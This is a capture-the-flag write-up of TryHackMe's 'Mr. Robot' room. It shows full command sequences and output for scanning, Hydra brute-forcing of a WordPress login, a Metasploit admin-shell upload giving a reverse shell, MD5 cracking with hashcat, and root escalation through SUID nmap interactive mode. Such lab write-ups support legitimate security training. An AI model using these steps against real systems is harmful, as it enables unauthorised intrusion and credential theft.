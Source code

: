 # MrRobot

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [Mr. Robot](https://tryhackme.com/room/mrrobot).

## Flag 1

Let's have a look at the environment:

```sh
IP="10.10.236.216"
nmap -sC -sV $IP
nikto -h $IP
```

Since there is a php based website served on port 80 and 443 via apache let us have a look at the available folders:

```sh
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP:80
```

We can see a lot of folders and that there is a wordpress login page.

Further things we can check:

- View html/css/js source -> nothing special
- View links on page -> text, videos, nothing special (but cool theme)
- View robots.txt -> first flag :)

In the robots.txt we find the first key ($IP/key-1-of-3.txt) and a dictionary file (probably for wordpress login @ $IP/login).

## Flag 2

Let's download the dictionary file "fsocity.dic" and have a look:

```sh
wget $IP/fsocity.dic
```

The file seems to be a password list but there are a lot of redundant entries. If we want to use this to brute-force login to the word-press admin portal we should remove all duplicate entries. We can use ```uniq``` for this but uniq expects a sorted list so we run the following:

```sh
sort fsocity.dic | uniq > uniqfsocity.dic
```

We can use hydra to brute-force http-post-form on the wordpress login page to find out the username. In case we get a "Invalid" the attempt failed.

```sh
hydra -L uniqfsocity.dic -p something $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid"
```

We find out the username "Elliot" is valid and abort hydra. Now let's use the same dictionary again to brute-force the password of Elliot. If a correct user logs in with an invalid password we can use "incorrect" as false trigger.

```sh
hydra -l Elliot -P uniqfsocity.dic -t 64 $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=incorrect."
```

This unfortunately takes some time but after a while we get the correct password for Elliot: ER28-0652

With access to the wordpress backend we can start Metasploit to exploit wordpress for a reverse shell:

```sh
msfdb init
msfconsole
db_nmap -sV 10.10.236.216
search wp
use exploit/unix/webapp/wp_admin_shell_upload
show options
set PASSWORD ER28-0652
set USERNAME Elliot
set RHOST 10.10.236.216
set LHOST 10.9.193.173
set LPORT 6666
show options
exploit
```

Unfortunantly I get an error running this saying wordpress is not available.
After seaching the web I find out possibly we can just ignore those errors in the used script. So lets open the script and comment out what stops the script and see what happens:

```sh
locate wp_admin_shell_upload  
sudo nano /usr/share/metasploit-framework/modules/exploits/unix/webapp/wp_admin_shell_upload.rb # comment out def exploit -> #fail_with
```

and run the exploit once more:

```sh
reload
exploit
```

I now get a new error so i just comment out all "fail_with" after "def exploit" and re-run the exploit once more:

```sh
reload
show options
exploit
```

Finally the exploit works and we have a reverse shell :)
Now let's look around:

```sh
meterpreter > ls
Listing: /home/robot
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100400/r--------  33    fil   2015-11-13 02:28:21 -0500  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 02:28:21 -0500  password.raw-md5
```

We see key 2 "key-2-of-3.txt" but can't access it. However, we can access "password.raw-md5":

```sh
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

This looks like the hashed password of user "robot". Let's find out what hash type is used by running ```hash-identifier```.

```sh
hash-identifier c3fcd3d76192e4007dfb496cca67e13b

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Let's crack the MD5 hash with ```hashcat``` using the rockyou password list.

```sh
hashcat -m0 --force c3fcd3d76192e4007dfb496cca67e13b /home/0xfab1/rockyou.txt

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /home/0xfab1/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 3 secs

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Guess.Base.......: File (/home/0xfab1/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   313.5 kH/s (0.32ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344384 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 36864/14344384 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: hockey5 -> loser69
```

The password for robot is abcdefghijklmnopqrstuvwxyz.
So back to the reverse shell and lets login as user "robot":

```sh
meterpreter > shell
Process 2226 created.
Channel 4 created.
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su -l robot
su -l robot
Password: abcdefghijklmnopqrstuvwxyz
cat /home/robot/key-2-of-3.txt
```

We now have access to "key-2-of-3.txt".

## Flag 3

Now as robot let us have a look at what we are allowed to do:

```sh
find / -user root -perm -4000 2>/dev/null

/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

We can exploit nmap (/usr/local/bin/nmap) with a vulnerability in the interactive mode since nmap is running with root privileges but we can trigger it as user robot:

```sh
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
cd /root
ls
firstboot_done  key-3-of-3.txt
cat key-3-of-3.txt
```

And there we have flag 3.
